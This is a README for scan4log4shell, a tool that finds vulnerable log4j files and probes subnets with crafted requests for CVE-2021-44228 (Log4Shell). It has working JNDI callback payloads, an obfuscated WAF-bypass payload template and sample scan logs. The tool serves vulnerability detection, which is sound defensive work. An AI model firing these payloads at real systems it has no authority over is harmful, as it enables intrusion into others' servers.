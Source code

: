 # scan4log4shell
> Scanner to detect vulnerable log4j versions on your file-system or to send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability (CVE-2021-44228)

CVE-2021-44228 is a remote code execution (RCE) vulnerability in Apache Log4j 2. An unauthenticated, remote attacker could exploit this flaw by sending a specially crafted request to a server running a vulnerable version of log4j. The crafted request uses a Java Naming and Directory Interface (JNDI) injection via a variety of services including:
- Lightweight Directory Access Protocol (LDAP)
- Secure LDAP (LDAPS)
- Remote Method Invocation (RMI)
- Domain Name Service (DNS)

## Installing
You can install the pre-compiled binary in several different ways

### homebrew tap:
```bash
brew tap hupe1980/scan4log4shell
brew install scan4log4shell
```
### scoop:
```bash
scoop bucket add scan4log4shell https://github.com/hupe1980/scan4log4shell-bucket.git
scoop install scan4log4shell
```

### deb/rpm/apk:

Download the .deb, .rpm or .apk from the [releases page](https://github.com/hupe1980/scan4log4shell/releases) and install them with the appropriate tools.

### manually:
Download the pre-compiled binaries from the [releases page](https://github.com/hupe1980/scan4log4shell/releases) and copy to the desired location.

## Usage 
```bash
Usage:
  scan4log4shell [command]

Available Commands:
  completion  Prints shell autocompletion scripts for scan4log4shell
  help        Help about any command
  local       Detect vulnerable log4j versions on your file-system
  remote      Send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability

Flags:
  -h, --help            help for scan4log4shell
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
      --version         version for scan4log4shell

Use "scan4log4shell [command] --help" for more information about a command.
```

## Local
Detect vulnerable log4j versions on your file-system
```bash
Usage:
  scan4log4shell local [paths] [flags]

Flags:
  -e, --exclude stringArray      path to exclude
  -h, --help                     help for local
      --ignore-ext stringArray   ignore .jar | .zip | .war | .ear | .aar
      --ignore-v1                ignore log4j 1.x versions
      --print-summary            print a summary

Global Flags:
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
```

### Example
```bash
make run-local

scanner_1  | 2021/12/16 07:32:25 [i] Log4Shell CVE-2021-44228 Local Vulnerability Scan
scanner_1  | 2021/12/16 07:32:25 [i] Start scanning path /walk
scanner_1  | ---------
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0-javadoc.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0-sources.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-1.2-api-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0-javadoc.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0-sources.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-api-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.14.0-bin/log4j-core-2.14.0.jar...
scanner_1  | 2021/12/16 07:32:25 [!] Possibly vulnerable file identified: /walk/apache-log4j-2.14.0-bin/log4j-core-2.14.0.jar
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-api-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-core-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.15.0-bin/log4j-spring-boot-2.15.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.16.0-bin/log4j-api-2.16.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/apache-log4j-2.16.0-bin/log4j-core-2.16.0.jar...
scanner_1  | 2021/12/16 07:32:25 [i] Inspecting /walk/jakarta-log4j-1.2.8/dist/lib/log4j-1.2.8.jar...
scanner_1  | 2021/12/16 07:32:25 [!] Log4j V1 identified: /walk/jakarta-log4j-1.2.8/dist/lib/log4j-1.2.8.jar
scanner_1  | 2021/12/16 07:32:25 [i] Completed scanning
```
## Remote
Send specially crafted requests and catch callbacks of systems that are impacted by log4j log4shell vulnerability
```
Usage:
  scan4log4shell remote [flags]

Flags:
      --caddr string            address to catch the callbacks (eg. ip:port)
      --cidr string             subnet to scan (default "192.168.1.0/28")
      --fields-file string      use custom field from file
      --headers-file string     use custom headers from file
  -h, --help                    help for remote
      --listen                  start a listener to catch callbacks
      --max-threads int         max number of concurrent threads (default 150)
      --no-basic-auth-fuzzing   exclude basic auth from fuzzing
      --no-redirect             do not follow redirects
      --no-user-agent-fuzzing   exclude user-agent header from fuzzing
      --no-wait-timeout         wait forever for callbacks
      --payloads-file string    use custom payloads from file
  -p, --port stringArray        port to scan (default [8080])
      --proxy string            proxy url
      --schema string           schema to use for requests (default "https")
      --timeout duration        time limit for requests (default 3s)
  -t, --type string             get, post or json (default "get")
      --waf-bypass              extend scans with WAF bypass payload
  -w, --wait duration           wait time to catch callbacks (default 5s)

Global Flags:
  -o, --output string   output logfile name
  -v, --verbose         print detailed logging messages
```
### Example
```bash
make run-remote

scanner_1  | 2021/12/16 09:57:24 [i] Log4Shell CVE-2021-44228 Remote Vulnerability Scan
scanner_1  | 2021/12/16 09:57:24 [i] Listening on 172.20.0.30:4444
scanner_1  | 2021/12/16 09:57:24 [i] Start scanning CIDR 172.20.0.0/24
scanner_1  | ---------
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.0:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.1:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.2:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.3:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.4:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.5:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.6:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.7:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.8:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.9:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.10:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.11:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.12:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.13:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.14:8080
scanner_1  | 2021/12/16 09:57:24 [i] Checking ${jndi:ldap://172.20.0.30:4444/l4s} for http://172.20.0.15:8080
scanner_1  | 2021/12/16 09:57:24 [!] Possibly vulnerable host identified: 172.20.0.13:60614
```

### Custom Payload
If you specify a file with custom payloads, you can use the following placeholders for callback address and resource:
- {{ .CADDR }}
- {{ .Resource }}

For example: 
```
${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//{{ .CADDR }}/{{ .Resource }}}
```

## References
- https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592
- https://nvd.nist.gov/vuln/detail/CVE-2021-44228


## License
[MIT](LICENCE)
